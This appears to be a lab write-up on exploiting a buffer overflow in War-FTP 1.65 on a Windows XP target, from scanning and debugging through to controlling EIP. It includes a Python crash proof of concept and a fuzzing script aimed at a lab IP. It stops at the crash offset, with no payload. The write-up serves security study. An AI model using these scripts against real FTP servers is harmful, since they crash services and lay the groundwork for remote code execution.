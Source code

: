 # Lab Machine Write up and Notes 

## Resources: 

Original Exploit: https://www.exploit-db.com/exploits/3570


### Nmap of the XP Machine

<img src="/images/nmap-xp-machine-tcp.png" >

A quick Nmap scan of the target machines reveals TCP port 21 open. I also outputted to all formats 
so I can import it into searchsploit to see if it catches some stuff. 

###  SearchSploit Results

I imported the Nmap scan like so: 

``
searchsploit --nmap xp-machine-tcp.xml 
``

But output was too verbose so I did not put it here and instead re-ran the command manually 

<img src="/images/searchsploit-1.png" >


###  Metasploit Console Exploit

<img src="/images/msfconsole.png" >

As you can see, the exploit did not work ( This is because it just crashed the application so, we are going to remake this manually )


### I Attached The Program to Immunity Debugger 

<img src="/images/immunity-ftp.png" width=812px height=474px>


### Vulnerability Discovery Inside The Application 

## Manual 

#### Python One Liner To Find Crashing Point Manually

This prints 1,000 As for ease of access 

<img src="/images/python-oneliner.png">

#### In the case of trying this directly through a FTP Client on a modern Distrobution the Client will stop you from sending the max buffer 

<img src="/images/failed-exploit.png">

#### So we are going to try with NetCat and See if that works better 

<img src="/images/crash-succeeded.png">

#### As you can see we crashed the program ( I did have to enter a pass before it crashed ) and to confirm the crash opened our debugger 

<img src="/images/immunity-crash.png" width=812px height=474px>

#### YAAAY we have control over the EIP and have written over it with our A's 

<img src="/images/immunity-EIP.png">

#### I have created an Exploit that will crash the server! 

This is a skeleton exploit we will add on more stuff as we find it

```python3
#!/usr/bin/python3

## War-FTP 1.65 Exploit

import socket
from urllib import response 

# define the variables to be sent to the server
ip = '192.168.164.170'
port = 21
buffer = b"A" * 510
payload = ""

# create the socket to connect to the server
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
connect = s.connect((ip, port))
# because there is a banner we wanna print it out 
response = s.recv(1024)
print(response)

# sending the exploit 
s.send(b"USER " + buffer + b"\r\n")
response = s.recv(1024)
print(response)

# because you have to enter the pass as well 
s.send(b"PASS PARROTASSASSIN15\r\n")
s.close()

```

## Automation 

#### We need to find the exact crash point so we make a fuzzing script to narrow it down after manual or automate it from the begining 


```python3
#!/usr/bin/python3

import socket
from time import sleep
from urllib import response 

buffer = b"B" * 10
x = 0

while True: 
    buff = (b"A" * x ) + buffer
    print("Fuzzing " + str(len(buff)))
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    connect = s.connect(('192.168.164.170', 21))
    response = s.recv(1024)
    print(response)
    s.send(b"USER " + buff + b"\r\n")
    response = s.recv(1024)
    s.send(b"PASS PARROTASSASSIN15\r\n")
    s.close
    x = x + 100
    sleep(2)
```

#### We find that it crashes at 510 as the server no longer responds after 

<img src="/images/python3-crash.png" width=80px height=300px>
